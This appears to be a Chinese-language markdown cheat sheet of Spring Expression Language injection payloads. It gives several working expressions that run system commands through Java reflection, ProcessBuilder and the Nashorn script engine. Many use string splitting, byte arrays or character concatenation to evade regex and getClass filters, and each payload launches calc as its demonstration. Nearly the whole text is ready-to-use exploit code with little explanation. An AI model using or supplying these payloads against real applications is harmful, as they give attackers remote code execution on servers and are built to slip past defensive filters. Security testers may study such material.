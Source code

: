 ## Bypass

### 反射调用

```
T(String).getClass().forName("java.lang.Runtime").getRuntime().exec("calc")

// 同上，需要有上下文环境
#this.getClass().forName("java.lang.Runtime").getRuntime().exec("calc")

// 反射调用+字符串拼接，绕过正则过滤
T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})

// 同上，需要有上下文环境
#this.getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})

```

## 绕过getClass(过滤

```csharp
''.getClass 替换为 ''.class.getSuperclass().class
''.class.getSuperclass().class.forName('java.lang.Runtime').getDeclaredMethods()[14].invoke(''.class.getSuperclass().class.forName('java.lang.Runtime').getDeclaredMethods()[7].invoke(null),'calc')
```

需要注意，这里的14可能需要替换为15，不同jdk版本的序号不同

## url编码绕过

```scss
// 当执行的系统命令被过滤或者被URL编码掉时，可以通过String类动态生成字符
// byte数组内容的生成后面有脚本
new java.lang.ProcessBuilder(new java.lang.String(new byte[]{99,97,108,99})).start()
// char转字符串，再字符串concat
T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(99)))
```

## JavaScript引擎

```scss
T(javax.script.ScriptEngineManager).newInstance().getEngineByName("nashorn").eval("s=[3];s[0]='cmd';s[1]='/C';s[2]='calc';java.la"+"ng.Run"+"time.getRu"+"ntime().ex"+"ec(s);")

T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval("xxx"),)
```
